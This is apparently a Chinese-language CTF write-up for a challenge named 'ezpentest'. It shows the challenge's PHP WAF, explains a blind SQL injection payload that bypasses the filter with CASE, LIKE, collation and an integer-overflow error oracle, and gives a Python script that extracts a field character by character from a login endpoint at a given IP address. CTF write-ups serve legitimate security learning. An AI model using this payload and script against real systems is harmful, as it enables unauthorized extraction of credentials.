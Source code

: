 ##  ezpentest

给出了waf

```php
<?php
function safe($a) {
    $r = preg_replace('/[\s,()#;*~\-]/','',$a);
    $r = preg_replace('/^.*(?=union|binary|regexp|rlike).*$/i','',$r);
    return (string)$r;
  }

?>
```

跟虎符的那个SQL注入题差不多，关键点就是利用like去匹配判断真假

构造payload

```
0'||case'1'when`password`collate'utf8mb4_bin'like'{}%'then+9223372036854775807+1+''else'0'end||'
```

这个payload分析一下

1. 需要了解[case语句](https://www.navicat.com.cn/company/aboutus/blog/341-sql-case)，when后面`password`的值，进行`like匹配`,如何匹配真，就返回`9223372036854775807+1` 这个表达式，而这个表示执行后会导致数据溢出，服务器会报500，否则就返回’0’，服务器会报error
2. `+''`是因为过滤了空白符号，所以用来连接起sql语句的
3. `collate`是进行一个排序规则，`utf8mb4_bin`用来区分大小写的，因为like正则匹配是不区分大小写的

给出脚本：

```python
import requests
import string
payload="0'||case'1'when`username`collate'utf8mb4_bin'like'{}%'then+9223372036854775807+1+''else'0'end||'"
list = string.ascii_letters + string.digits + '^$!_%@&'

url = 'http://1.14.71.254:28522/login.php'
result=''
for i in range(100):
    for j in list:
        if (j in '%_'):  #这里是对like正则匹配中的一些特殊符号进行转义，这里很重要，不然注出来的结果都不行。
            j = "\\" + j
        payload2=payload.format(result+j)
        data={
        'password': payload2,
        'username': 'admin'
        }
        re = requests.post(url,data=data)
       # 判断为真,服务器就响应500
        if  re.status_code==500:
            result+=j
            print(result)
            break
```
